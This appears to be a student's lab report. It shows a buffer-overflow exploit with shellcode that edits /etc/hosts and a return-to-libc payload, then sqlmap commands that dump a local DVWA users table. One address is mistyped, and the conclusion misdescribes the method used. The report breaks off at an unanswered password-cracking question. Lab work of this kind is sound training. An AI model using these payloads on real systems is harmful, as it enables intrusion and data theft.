# Lab #1,22110086, Tran Van Tuyen, 241INSE330380E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.
  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)

For this lab, i will use a docker container to do. It will be mapped to my Seclabs directoy

![image](https://github.com/user-attachments/assets/f8d69d8d-5ee1-43b7-a8fe-1e20a9e126f2)

Then i will compile C asm program and C program
![image](https://github.com/user-attachments/assets/96923428-54c0-430c-a2b3-1ab49faf51e1)

I will use an older bash and turn off randomly given stack value.

![image](https://github.com/user-attachments/assets/2225b827-1838-4506-aab8-6c3726acf7ec)

The pwd of the file_del-1 `/home/seed/seclabs/Security-labs/Software/buffer-overflow`

![image](https://github.com/user-attachments/assets/861a0ba4-3c32-4691-9960-4ac4952850db)

Create a global environment varibale name **my_path** using `/home/seed/seclabs/Security-labs/Software/buffer-overflow/file_del-1`

![image](https://github.com/user-attachments/assets/d32c143b-4c98-45f4-8d19-c4f5d0c9f00e)

The stack frame of main function

![image](https://github.com/user-attachments/assets/6ecff85e-ae0a-450c-b8fb-d2f03d3f1278)

Now , I will find the address of system and exit and that string of varibale

![image](https://github.com/user-attachments/assets/7bcb3c72-ec57-4c31-8cbd-f745af79ceb1)

- Address value of system: `0xf7e50db0` will be inserted with format \xb0\x0d\xe5\xf7

- Address value of exit: `0xf7e449e0` will be inserted with format \xe0\x49\xe4\f7

- Address value of the string of environment: `0xffffdee3` will be inserted with format `\xe3\xde\xff\xff`

so command is

```
    r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\xe3\xde\xff\xff')")
```

![image](https://github.com/user-attachments/assets/18cf6af2-122b-4d8c-b007-11b991489f4f)

-before attack
![image](https://github.com/user-attachments/assets/75ec4ae6-5867-4757-80a9-faf67641d91d)

-after attack
![image](https://github.com/user-attachments/assets/74cdbbf9-f30e-4f29-b707-4dc623f267a9)

==>Complete lab

> **Conclusion**: This exercise demonstrated how a buffer overflow vulnerability in a C program could be exploited to execute arbitrary code (in this case, modifying /etc/hosts). We used environment variables to store shellcode and manipulated the stack to trigger its execution by overwriting the return pointer.

# Task 2: Attack on the database of Vulnerable App from SQLi lab

- Start docker container from SQLi.
  No i use virtual machine , so dont need Start docker

  - Access DVWA:http://localhost to access the DVWA interface. Login with the default credentials:

Username: admin
Password: password

![image](https://github.com/user-attachments/assets/86ecb794-75f6-4bcc-a1ef-cf35589ac95b)

> Then, change the Security Level to Low under the "DVWA Security" settings.

![image](https://github.com/user-attachments/assets/df8238fc-d761-484c-913d-335d7a65b397)

- Install sqlmap.

i have splMap so i only need update with command
`sudo apt-get update`

![image](https://github.com/user-attachments/assets/b0f38b60-8074-472f-b1b8-a37d5b21b656)

cd sqlmap

![image](https://github.com/user-attachments/assets/2aa8b4bb-fee8-438d-8120-55266f758d67)

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
Cookie of the website
![image](https://github.com/user-attachments/assets/d33ceb26-2d5b-49e5-a582-933770e9cd61)

- run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=p7oluqfdb8o0tb5trnl2lmf9c1; security=low" --dbs` to get information about all available databases

![image](https://github.com/user-attachments/assets/175a9052-5415-49ac-93b7-f4607e955d4d)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

- run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=p7oluqfdb8o0tb5trnl2lmf9c1; security=low" -D dvwa --tables` to get tables

![image](https://github.com/user-attachments/assets/37c568dd-abc0-4e52-9adb-142a2bafd0dc)

-run `python3 sqlmap.py -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=p7oluqfdb8o0tb5trnl2lmf9c1; security=low" -D dvwa -T users --dump` to get users information

![image](https://github.com/user-attachments/assets/482061e7-e270-491e-8513-61fb89a0f3a5)

> answer after run

![image](https://github.com/user-attachments/assets/5a482ce2-588b-476f-ac88-89b5a96477a1)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:

